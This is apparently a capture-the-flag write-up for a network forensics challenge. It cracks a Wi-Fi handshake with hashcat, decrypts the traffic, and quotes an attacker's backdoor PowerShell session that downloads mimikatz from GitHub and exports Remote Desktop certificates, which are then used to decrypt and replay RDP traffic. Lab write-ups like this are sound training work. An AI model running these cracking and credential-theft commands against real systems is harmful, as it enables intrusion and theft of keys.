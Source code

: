 > AoC Side Quest Ctf
- So serious I almost lost my marbles on four separate occasions trying to finish this
#### Question 1
- Finding the name of the wifi network was easy
- Upzip the .pcapng file, load it into wireshark, and you see pretty quickly that the SSID is `FreeWifiBFC`
#### Question 2
- To find the password, first use this site: https://hashcat.net/cap2hashcat/ to extract the handshake file w the pass hash, then use this command:
```shell
hashcat -m 22000 <path/to/hash/file> /usr/share/wordlists/rockyou.txt.gz
```
- Two lines like this should appear in the results:
```
af804935ab322d4b0bbd84a711c36f01:22c712c7e235:d267d13f36ec:FreeWifiBFC:Christmas
c10a70d965945b57f2988ae0fcfd2b22:22c712c7e235:2a8449acf9d8:FreeWifiBFC:Christmas
```
#### Question 3
- Now that we have the wifi password, we can decrypt the traffic
- In wireshark, go to `Edit > Preferences > Protocols > IEEE 802.11`
- Usually, you can just load the decryption key like this `wpa-pwd|Christmas`
- I also had to enable `Assume packets have FCS` for the decryption to work
- After that, there are other visible protocols and steams, such as `TCP`
- There was a hint about backdoors in the room, and the `TCP` backdoor port is 4444
- Search `tcp.port == 4444`, find a `PSH ACK` packet, and follow the TCP steam
- You should get something like this:
```
Windows PowerShell running as user Administrator on INTERN-PC
Copyright (C) Microsoft Corporation. All rights reserved.



PS C:\Users\Administrator> PS C:\Users\Administrator> 
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'
```
- (there's more but you get the point)
- From this we can determine that the tool they are running is `mimikatz`
#### Question 4
- The important part of the info we found for question 3 is that the attacker used a ps command to read a `.pfx` file and covert it to base64
- pfx files usually contain a public key, private key, and certificate chain, and they are suually used to store things like TLS certs
- we can use the pfx key to decrypt tls in wireshark
- `edit > preferences > tls > rsa keys list`
- input <IP> port - 3389 prc key file - /path/to/b64_decoded_pfx_file pass - mimikatz
- from here we find that the client is using RDP
- I exported specific RDP info for analysis with `file > export PDUs to file > OSI layer 7` and saved it to another .pcap file
- from here I used `pyrdp` to extract the interactions
```shell
pyrdp-convert -f <new file> /path/to/exported/pcap
pyrdp-player <new file>.pyrdp
```
- after scrolling through the activity, I found the assigned case number in an email screencapture `31337-0`
#### Question 5
- The yeti key was also in the rdp replay in a clipboard data variable `1–f9548f131522e85ea30e801dfd9b1a4e526003f9e83301faad85e6154ef2834`
